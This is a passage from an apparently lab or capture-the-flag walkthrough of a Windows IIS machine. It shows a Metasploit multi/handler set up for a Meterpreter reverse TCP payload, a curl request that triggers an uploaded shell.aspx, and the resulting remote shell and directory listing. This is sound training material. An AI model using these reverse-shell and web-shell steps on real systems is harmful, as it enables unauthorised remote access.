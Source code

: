 ```bash
                      .

       =[ metasploit v6.4.55-dev-                         ]
+ -- --=[ 2502 exploits - 1287 auxiliary - 431 post       ]
+ -- --=[ 1616 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.99.136
LHOST => 10.10.99.136
msf6 exploit(multi/handler) > set LPORT 8910
LPORT => 8910
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.99.136:8910 
```

During many frustrating attempts, you will have discovered that the default `tcp` `http` port won't work for the detonation; so utilize the other open port to detonate the shell.

Can be done on the browser or with `curl`.

```bash
root@ip-10-10-99-136:~# curl 10.10.172.27:49663/nt4wrksv/shelly.aspx
```

We are now in, and `Metasploit` is now the `meterpreter >`

All we need to do now is turn it into Shell and start traversing the directories to get to the .exe we pushed earlier.

```bash
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.99.136:8910 
[*] Meterpreter session 1 opened (10.10.99.136:8910 -> 10.10.172.27:49921) at 2025-05-29 19:56:58 +0100

meterpreter > shell
Process 3800 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>cd c:\inetpub
cd c:\inetpub

c:\inetpub>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub

07/25/2020  08:16 AM    <DIR>          .
07/25/2020  08:16 AM    <DIR>          ..
07/25/2020  08:07 AM    <DIR>          history
07/25/2020  08:05 AM    <DIR>          logs
07/25/2020  08:05 AM    <DIR>          temp
07/25/2020  02:46 PM    <DIR>          wwwroot
07/25/2020  02:04 PM    <DIR>          wwwroot1
               0 File(s)              0 bytes
               7 Dir(s)  21,039,386,624 bytes free
```